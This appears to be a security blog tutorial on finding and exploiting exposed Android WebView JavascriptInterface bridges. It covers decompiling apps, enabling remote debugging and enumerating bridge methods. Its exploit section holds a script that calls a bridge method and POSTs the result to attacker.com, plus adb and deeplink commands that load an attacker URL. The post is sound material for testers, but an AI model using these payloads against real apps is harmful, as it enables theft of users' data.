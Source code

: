 ```yaml
---
title: WebView and JavaScript Bridge
description: >-
  While researching on android WebView vulnerabilities We got to know most of
  the mobile application uses WebView JavaScript bridge called…
date: '2021-01-09T20:53:59.588Z'
categories: []
keywords: []
slug: ''
---
```


While researching on android WebView vulnerabilities We got to know most of the mobile application uses WebView JavaScript bridge called JavascriptInterface in WebView.

JavascriptInterface allows the Java object’s methods to be accessed from JavaScript. For applications targeted to API level Build.VERSION\_CODES.JELLY\_BEAN\_MR1

class JsObject {  
    @JavascriptInterface  
    public String toString() { return "injectedObject"; }  
 }  
 webview.getSettings().setJavaScriptEnabled(true);  
 webView.addJavascriptInterface(new JsObject(), "injectedObject");  
 webView.loadData("", "text/html", null);  
 webView.loadUrl("javascript:alert(injectedObject.toString())");

**Vulnerability** 

> As the object is exposed to all the frames in WebView ,hence any frame can get object name and call methods on it.

**Steps to Identify If Android Application is using JavascriptInterface**

1.  The below command can be used to identify the presence of the JavascriptInterface (in the source code after decompiling the app )

$ grep -r -n -i "addJavascriptInterface" 

‌If the code built for API 17 (or above) and includes the ‘@JavascriptInterface’ annotation (The @JavascriptInterface annotation was introduced in Android 4.2, [JELLY\_BEAN\_MR1](https://android-developers.blogspot.com/2013/02/security-enhancements-in-jelly-bean.html) (Security Enhancements in Jelly Bean) to limit exposure to the reflection attack.)

$ grep -r -i "\\@JavascriptInterface"

2\. Or Simply Obtain the Source code of application and search for keyword “addJavascriptInterface” 

![](https://cdn-images-1.medium.com/max/800/1*iINomQ0HSGnkIqNsjByNwQ.png)
undefined

  

**Remote Debugging of Identified JavaScript Interface**

Once JavaScript Identified we can now examine the Interface using [Remote Debugging WebViews](https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews) where remote debugging will connect to the WebView running on android device using Chrome and we can use Chrome’s developer console to test the javascriptinterface in WebView

For that **“setWebContentsDebuggingEnabled”** setting on the application should be enabled. 

If **“setWebContentsDebuggingEnabled”** was not enabled follow below steps to enble the **“setWebContentsDebuggingEnabled”** 

1.  Reverse the application using [Apktool](https://ibotpeaches.github.io/Apktool/)
2.  Add below code snippet into the bytecode of the application, ideally before any other bytecode executes. A suitable place will be entry point of classes of the app, e.g. the Main Activity of the application

```
const/4 v1, 0x01invoke-static {v1}, Landroid/webkit/WebView;->setWebContentsDebuggingEnabled(Z)V
```

3\. And rebuild the application using Apktool 

Now we can connect our Android Device WebView remotely to our chrome browser by navigating to “**chrome://inspect**”

The chrome://inspect page displays a list of debug-enabled WebView's on your device. To start debugging, click inspect below the WebView.

![](https://cdn-images-1.medium.com/max/800/1*V41J9D3N7z-UptTJG7elIA.png)

Now we can inspect every element of WebView in browser 

**Enumeration of Javascript Interface** 

Now we have the console of application WebView , we can list the all elements including JavaScript Interface using below console command

Object.getOwnPropertyNames(window).forEach(function(v, x) { console.log(v); });

![](https://cdn-images-1.medium.com/max/800/1*hGEbzVcwAOSateGJMOVU5g.png)

Now to retrieve the methods of listed elements use below console command 

Object.getOwnPropertyNames(window.**Nameoftheelement**).forEach(function(v, x) { console.log(v); });

![](https://cdn-images-1.medium.com/max/800/1*inJOu1ixFDOLCA1XnbZojg.png)

Once you have the list of all elements and methods you can call them 

document.write(Interfacename.JSON())

**Exploit**

For exploit, attackers needs to identify the way to load attacker-controlled URL in application WebView, where an attacker can host the below HTML with Identified JavaScript Interface 

<script>

x=Interfacename.Method()  //Vulnerable Interface name and Method  
send(x)

function send(data){  
var xhr = new XMLHttpRequest();  
 xhr.open("POST", "[https://attacker.com/](https://postb.in/1602795714465-0842880969867)", true);   
 xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");  
 xhr.send(data);

}</script>

**Using Exported Activity (Loading Arbitrary URL in WebView)**

adb shell am start -n com.vulnerableclass/VulnerableActivity -d “[https://attacker.com](https://attacker.com)"

**Using Vulnerable Deeplink**

adb shell am start  
        -W -a android.intent.action.VIEW  
        -d "example://gizmoslogin/?url=[http://attacker.com/](http://attacker.com/)" com.example.android

**Using URL** 

Attacker and Add the URL in application using functionality provided by application for e.g. share the URL to multiple Users etc.

Using Above steps you can find the JavaScript Interface elements and with help of them leak the information of WebView 

**Reference**

[**Abusing WebViews to Steal Files via Email**  
_A few months ago, I was testing the email functionality on a company's contact us page, when I sent an email to myself…_carvesystems.com](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/ "https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/")[](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/)

[**Remote Debugging WebViews | Chrome DevTools | Google Developers**  
_"type": "thumb-down", "id": "missingTheInformationINeed", "label":"Missing the information I need" },{ "type"…_developers.google.com](https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews "https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews")[](https://developers.google.com/web/tools/chrome-devtools/remote-debugging/webviews)

[**Abusing WebViews to Steal Files via Email**  
_A few months ago, I was testing the email functionality on a company's contact us page, when I sent an email to myself…_carvesystems.com](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/ "https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/")[](https://carvesystems.com/news/abusing-webviews-to-steal-files-via-email/)

[**WebView addJavascriptInterface Remote Code Execution**  
_Recently we have been researching vulnerabilities within cross platform mobile application development frameworks…_labs.f-secure.com](https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/ "https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/")[](https://labs.f-secure.com/archive/webview-addjavascriptinterface-remote-code-execution/)

[**Twitter disclosed on HackerOne: Twitter lite(Android): Vulnerable...**  
_Summary:\*\* com.twitter.android.lite.TwitterLiteActivity is set to exported and doesn't validate data pass to intent due…_hackerone.com](https://hackerone.com/reports/499348 "https://hackerone.com/reports/499348")[](https://hackerone.com/reports/499348)
